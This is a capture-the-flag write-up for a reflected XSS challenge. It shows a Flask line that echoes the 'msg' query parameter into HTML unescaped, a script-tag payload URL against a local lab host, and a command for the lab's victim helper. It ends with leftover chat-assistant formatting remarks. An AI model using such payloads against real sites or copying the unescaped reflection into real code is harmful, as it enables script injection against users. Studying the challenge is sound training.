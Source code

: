 # Reflected XSS – `alert("PWNED")`

## 🧠 Summary

This challenge features a **Reflected XSS** vulnerability. The server takes a URL query parameter (`msg`) and renders it directly into the HTML response **without escaping**, allowing us to inject JavaScript.

## 🔍 Exploiting the Vulnerability

The server code reflects the `msg` parameter like this:

```python
{flask.request.args.get("msg", "(none)")}
````

No sanitization is applied, so we can inject a `<script>` tag.

### 🚀 Steps to Exploit

1. **Craft the malicious URL:**

   ```
   http://challenge.localhost:80/?msg=<script>alert("PWNED")</script>
   ```

2. **Trigger the victim to visit it:**

   ```bash
   /challenge/victim 'http://challenge.localhost:80/?msg=<script>alert("PWNED")</script>'
   ```

3. **Result:**

   Once the victim visits the crafted URL, `alert("PWNED")` is executed in their browser, revealing the flag.

## ✅ Conclusion

By reflecting **unsanitized input** into HTML, the server allows **JavaScript injection** via the URL.

> This is a classic **Reflected XSS** scenario.

```

This version:
- Fixes code block syntax for Python, Bash, and URLs.
- Escapes special characters properly for Markdown rendering.
- Maintains structure and clarity.

Let me know if you'd like to add links, images, or extra formatting!
